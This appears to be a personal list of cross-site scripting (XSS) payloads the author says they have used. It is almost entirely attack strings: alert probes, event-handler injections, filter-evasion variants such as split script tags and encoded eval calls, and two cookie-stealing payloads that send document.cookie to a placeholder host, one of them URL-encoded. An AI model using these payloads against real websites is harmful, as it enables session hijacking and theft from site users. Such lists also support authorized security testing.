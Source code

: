 ## This will be a collection of XSS JavaScript Payloads I have used



"><h1>test</h1>
'+alert(1)+'
"onmouserover="alert(1)
http://"onmouseover="alert(1)
<body onload=alert(1)>



<img src=x onerror=alert(1) />
<img src=x onerror='alert(1)' />



<object data=javascript:alert(1)>
<x onmouseover=alert(1)>


<a onmouseover='alert(1)'>


<svg onload=alert(1)>

<svg onload=fetch('//HOST/?cookie='+document.cookie)>

<svg onload="document.body.innerHTML='<img src=//HOST/IMAGE>'">



“><script>alert(1)</script>
<script>alert(document.domain)</script>
<sc<script>ript>alert(1)</sc</script>ript>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>

<script>eval("al"+"ert(1)")</script>
<script>eval("al"%2b"ert(1)")</script>
</script>;<script>alert(1)</script>
</script><script>alert(1)</script>


%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://yourSiteHere?c=%27%2bdocument.cookie%2b%27%22%20/%3E%27);%3C/script%3E
The above code looks like the below code before encoding
<script>document.write('<img src="yourSiteHere?c='%2bdocument.cookie%2b'" />');</script>
